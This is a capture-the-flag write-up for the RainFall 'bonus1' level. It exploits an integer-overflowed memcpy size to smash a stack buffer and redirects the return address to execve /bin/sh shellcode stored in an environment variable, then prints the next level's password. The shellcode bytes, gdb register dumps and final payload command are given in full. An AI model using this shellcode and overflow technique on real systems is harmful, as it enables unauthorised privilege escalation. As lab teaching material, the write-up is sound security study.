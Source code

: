# bonus1

### First analysis

Rhis level has a very straightforward, short and easy to understand code:

```c
int main(int ac, char **av) {
    char    dest[40];
    int     size;

    size = atoi(av[1]);

    if (size < 10) {
        memcpy(dest, av[2], size * 4);
        if (size == 1464814662)
            execl("/bin/sh", "sh", 0);

    } else {
        return 1;
    }

    return 0;
}
```

It basically takes av[1] and stores it as the size of our input which can maximum be 9 * 4, so 36, and takes av[2] to write it into a 40 char size buffer.

So in this code the maximum char we can enter is 36, and the buffer is a 40 characters long buffer, so at first glance there are no overflows possible. However we worked a lot with atoi during our early days at 42, and knows some of its weird behavior such as, in 32bit, if we get to a too high value, and we continue to increment it, it would become negative, same thing if a very low number is decremented, it would become positive again. These limits are INT_MIN and INT_MAX. Those behaviors are actually not from atoi but just 32bit architecture, it's just that we observed it for the first time with atoi and itoa.

### Exploit atoi

So in theory if we input a negative number that is sufficiently low that if multiplied by 4 it would go under INT_MIN, we could get a positive payload. But more than that, we could control the size of our payload without paying attention to the limit of the buffer, therefore overflowing this buffer. We made for that a little script that can find the size of the buffer we want:

```c
int main(int ac, char **av) {
    int nbr = atoi(av[1]);

    printf("Searching for the closest buffer size for: %d\n", nbr);
    for (int i = -536870912; i > -2147483648; i--) {
        if (i * 4 <= nbr && i * 4 + 5 > nbr + 1)
            printf("Buffer x*4 of size: %d with x = %d\n", i * 4, i);
    }
}
```
Basically it tests every options possible between -536870912 which is INT_MIN divided by 4 (since here our size will be multiplied by 4 and that under this number, it would not result into a positive buffer), and INT_MIN, it will multiply by 4 every possibility and give the ones closest to the buffer we want. For example with a size of 100 or 110:

```sh
bonus1@RainFall:/tmp$ ./a.out 100
Searching for the closest buffer size for: 100
Buffer x*4 of size: 100 with x = -1073741799
Buffer x*4 of size: 100 with x = -2147483623
Searching for the closest buffer size for: 110
Buffer x*4 of size: 108 with x = -1073741797
Buffer x*4 of size: 108 with x = -2147483621
```

Since the buffer size will be a multiple of 4, 100 gives us a buffer size of 108, the closest size available.

### Exploit the rest

As we do all the time during the informations gathering part of exploiting a binary, now that we have a way to provoke a buffer overflow, we are gonna search for all the things that we manage to overflow such as addresses, variables etc... Here we would be interested in being able to modify size since the program gives us a nice shell if size = 1464814662.

After trying a lot of different payload of different sizes at different places, we dounf two spaces where we can edit informations:

```sh
(gdb) run -1073741794 aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
Starting program: /home/user/bonus1/bonus1 -1073741794 aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
[...]
0x6f6f6f6f in ?? ()
(gdb) info registers
eax            0x0	0
ecx            0x68736162	1752392034
edx            0xbffff6fc	-1073744132
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff6c0	0xbffff6c0
ebp            0x6e6e6e6e	0x6e6e6e6e
esi            0x0	0
edi            0x0	0
eip            0x6f6f6f6f	0x6f6f6f6f
eflags         0x200202	[ IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

Program received signal SIGSEGV, Segmentation fault.
0x6f6f6f6f in ?? ()
```

- 52 chars after our buffer address we seem to have edited ebp, which is now at 0x6e6e6e6e, so "nnnn" in hexadecimal.
- 56 chars after our buffer address, we seem to have edited the return value of main, which is now at 0x6f6f6f6f, so "oooo" in hexadecimal.

Even if with this first range of tests we didn't find where size is stored and how to edit it, we are capable of editing the return address of main. We then instantly thought, if we can edit it, maybe we can do the same as bonus0, put a shellcode in an env variable, get the address of this env variable with a little script, and redirect main to this shellcode. It doesn't seem to be the way the person who made this exercice wanted us to resolve it, but it is worth the try:

```sh
bonus1@RainFall:~$ export SHELLCODE=$(python -c "print('\x90' * 500 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')")
bonus1@RainFall:~$ /tmp/a.out SHELLCODE
Searching address of SHELLCODE env variable:
Big-endian format: 0xbffff719
Lil-endian format: \x19\xf7\xff\xbf
```

We have our shellcode address (we used the env_address code of bonus0 that you can also find in Resources of bonus 1). We already had our program to know what number to input for a buffer of 100.
We just have to build our payload now:

```sh
bonus1@RainFall:~$ ./bonus1 -1073741799 $(python -c "print 'A' * 56 + '\x19\xf7\xff\xbf'")
$ whoami
bonus2
$ cat /home/user/bonus2/.pass 
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

As we said it is probably not the intended way of exploiting this binary but... it worked.
